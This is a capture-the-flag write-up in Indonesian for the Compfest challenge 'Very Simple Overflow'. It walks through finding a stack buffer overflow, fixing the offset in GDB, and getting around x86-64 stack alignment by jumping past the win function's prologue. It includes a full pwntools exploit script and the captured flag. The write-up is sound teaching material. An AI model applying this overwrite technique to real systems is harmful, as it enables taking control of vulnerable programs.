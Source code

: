 # **Write-up CTF Compfest: Very Simple Overflow**

## **Informasi Tantangan**

  * **Nama:** Very Simple Overflow
  * **Kategori:** Pwn / Binary Exploitation
  * **Deskripsi:** Diberikan sebuah file binary dan alamat server. Tujuannya adalah mengeksploitasi kerentanan untuk mendapatkan flag.

## **Ringkasan (TL;DR)**

Tantangan ini memiliki kerentanan *stack buffer overflow* yang sangat jelas. Tujuannya adalah melakukan `ret2win` dengan melompat ke fungsi `win` yang tersembunyi. Namun, tantangan sebenarnya terletak pada masalah **stack alignment** pada arsitektur 64-bit yang menyebabkan *crash* saat dipanggil secara naif. Karena keterbatasan ukuran input, solusi standar (menggunakan `ret gadget`) tidak dapat diterapkan. Solusi akhirnya adalah dengan melompat satu byte setelah awal fungsi `win` untuk melewati instruksi `push rbp`, sehingga menjaga stack tetap *aligned* dan memungkinkan eksekusi fungsi `win` berhasil.

-----

### **1. Analisis Awal & Reconnaissance**

Langkah pertama adalah melakukan analisis dasar pada file `chall` yang diberikan.

  * `file chall`: Menunjukkan bahwa ini adalah file ELF 64-bit, dynamically linked, dan tidak di-strip (masih memiliki simbol).
  * `checksec chall`:
      * **No Canary found**: Proteksi *stack canary* non-aktif. Ini membuka pintu untuk eksploitasi stack overflow.
      * **No PIE (0x400000)**: *Position-Independent Executable* non-aktif. Alamat-alamat fungsi dan data di dalam binary akan tetap sama setiap kali dieksekusi, menyederhanakan eksploitasi.
  * `strings chall`: Menemukan beberapa string menarik, termasuk "You know the drill" dan yang paling penting, sebuah fungsi bernama `win`. Ini adalah petunjuk besar adanya fungsi kemenangan yang bisa kita panggil.

Selanjutnya, binary dianalisis menggunakan Ghidra untuk dekompilasi.

```c
// Fungsi rentan
void vuln(void) {
    char buffer[16];
    printf("You know the drill\n>> ");
    fflush(stdout);
    // Kerentanan: Membaca 32 byte ke buffer 16 byte
    read(0, buffer, 32); 
}

// Fungsi kemenangan
void win(void) {
    // Fungsi ini membuka flag.txt dan mencetaknya
    char flag_buffer[100];
    FILE *file = fopen("flag.txt", "r");
    if (file) {
        fread(flag_buffer, 1, sizeof(flag_buffer), file);
        printf("%s\n", flag_buffer);
        fclose(file);
    }
}
```

Dari sini, rencana eksploitasi tampak jelas: temukan offset untuk menimpa *return address* dan arahkan ke fungsi `win`.

### **2. Perjalanan Menemukan Offset yang Benar**

Ini adalah bagian paling rumit dari tantangan ini, yang penuh dengan informasi yang menyesatkan.

  * **Analisis Statis (Gagal)**: Ghidra menunjukkan dua informasi yang saling bertentangan. Ringkasan decompiler menyebutkan buffer berada di `Stack[-0x18]`, yang mengarah pada perhitungan `OFFSET = 32`. Namun, instruksi Assembly yang sebenarnya adalah `LEA RAX, [RBP - 0x10]`, yang mengarah pada perhitungan `OFFSET = 24`.
  * **Analisis Dinamis (Berhasil)**: Karena analisis statis tidak meyakinkan, satu-satunya cara adalah dengan analisis dinamis menggunakan GDB.
    1.  Sebuah pola unik (`cyclic(200)`) dikirim ke program yang berjalan di dalam GDB.
    2.  Program crash saat menjalankan instruksi `ret`. `RIP` tidak tertimpa, yang menandakan crash terjadi tepat di instruksi `ret` itu sendiri.
    3.  Dengan memeriksa puncak stack (`x/gx $rsp`), kita menemukan nilai yang akan dieksekusi, yaitu `0x6161616861616167`.
    4.  `cyclic_find(0x6161616861616167)` mengkonfirmasi secara definitif bahwa **offset yang benar adalah 24**.

### **3. Masalah Stack Alignment & Solusi Cerdas**

Dengan `OFFSET = 24`, payload `ret2win` sederhana dibuat: `padding(24) + win_addr(8)`. Ukuran totalnya 32 byte, pas dengan `read(..., 32)`.

Namun, eksploit ini berhasil di lokal tetapi selalu gagal di server remote. Server menutup koneksi tanpa mengirim data (0 byte). Ini adalah gejala klasik dari **masalah stack alignment**.

  * **Penyebab**: Pada arsitektur x86-64, stack harus 16-byte aligned sebelum memanggil fungsi libc. `ret` dari `vuln` membuat stack menjadi aligned (`16n`), tetapi instruksi pertama di fungsi `win` (`push rbp`) kembali membuat stack menjadi tidak aligned (`16n + 8`), menyebabkan `fopen` crash.
  * **Dilema**: Solusi standar untuk ini adalah menyelipkan `ret gadget` (`padding + ret + win`), tetapi ini akan membuat payload menjadi 40 byte, yang melebihi batas `read()` 32 byte.
  * **Solusi Akhir**: Triknya adalah **melompat melewati prolog fungsi `win`**. Daripada melompat ke awal `win` di `0x401186` (yang berisi `push rbp`), kita melompat ke instruksi setelahnya di `0x401187`. Dengan cara ini, `push rbp` tidak pernah dieksekusi, stack tetap *aligned*, dan `fopen` bisa berjalan tanpa crash.

### **4. Skrip Exploit Final**
Berdasarkan semua analisis dan debugging, berikut adalah skrip akhir yang berhasil mendapatkan flag. 

```python
#!/usr/bin/env python3
from pwn import *

# Fungsi helper untuk beralih antara tes lokal dan remote
def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote('ctf.compfest.id', 7004)
    else:
        return process(exe.path)

# --- KONFIGURASI ---
context.binary = exe = ELF('./chall', checksec=False)
context.log_level = 'info'

# --- PAYLOAD ---
OFFSET = 24          # Dikonfirmasi via GDB
WIN_ADDR = 0x401186  # Alamat awal fungsi win

# Trik: Lompat ke alamat setelah instruksi 'push rbp' (1 byte)
EXPLOIT_ADDR = WIN_ADDR + 1

info(f"Offset terkonfirmasi: {OFFSET}")
info(f"Alamat eksekusi (melompati prolog): {hex(EXPLOIT_ADDR)}")

payload = flat([
    b'A' * OFFSET,
    p64(EXPLOIT_ADDR)
])
assert len(payload) == 32

# --- EKSEKUSI ---
p = start()

# Interaksi dengan server
p.recvuntil(b'>> ')
p.send(payload)
log.success("Payload terkirim!")

# Menerima flag
flag_output = p.recvall(timeout=3)
if flag_output:
    log.success(f"Flag ditemukan: {flag_output.decode(errors='ignore').strip()}")
else:
    log.warning("Tidak ada output yang diterima.")

p.close()
```

### **5. Flag**
`COMPFEST17{the_risk_i_took_was_calculated_but_man_am_i_bad_at_math_ed0ea99d31}` 
